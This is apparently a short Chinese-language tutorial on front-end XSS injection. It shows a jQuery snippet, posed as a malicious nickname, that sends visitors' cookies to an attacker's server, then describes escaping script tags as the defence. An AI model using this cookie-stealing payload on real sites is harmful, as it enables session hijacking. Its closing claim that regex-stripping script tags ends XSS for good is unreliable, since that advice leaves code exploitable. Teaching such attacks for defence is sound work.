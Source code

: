 # XSS注入

目前WEB应用为满足用户需求，也变得越来越复杂，随之而来的就是各种网络安全的问题。今天在这里讨论前端安全相关的事情。然而想做到绝对安全几乎不可能，支付宝也爆过安全问题，而我们要做的就是提高安全等级，只要能让黑客的攻击成本。

#### XSS注入示例:
如果一个社交网站没有做XSS防范，一位恶意博主的昵称如下：
```js
$.ajax({
    url: '自己的服务器',
    dataType: 'jsonp',
    data: {'cookie': document.cookie}
});
```
那么有访问者来到这个博主的空间时，就会执行script标签中的代码，发起ajax请求、并把访问者的cookie上传到攻击者服务器，如此访问者身份信息被盗。

### 防范XSS注入
上述的注入示例，原理是浏览器遇到script标签的，执行其中的脚本，导致攻击成功。但是如果我们将script标签的进行转义，则浏览器便不会认为其是一个标签，不去执行其中的代码，只是正常展示.
通过srcipt标签， src属性做注入的方式多烦多可以参考：

### 比较不错的参考资料
https://segmentfault.com/a/1190000006672214#articleHeader11

最为快捷一绝后患的方式，即 正则匹配script标签进行内容替换，或者禁止用户输入此类字符
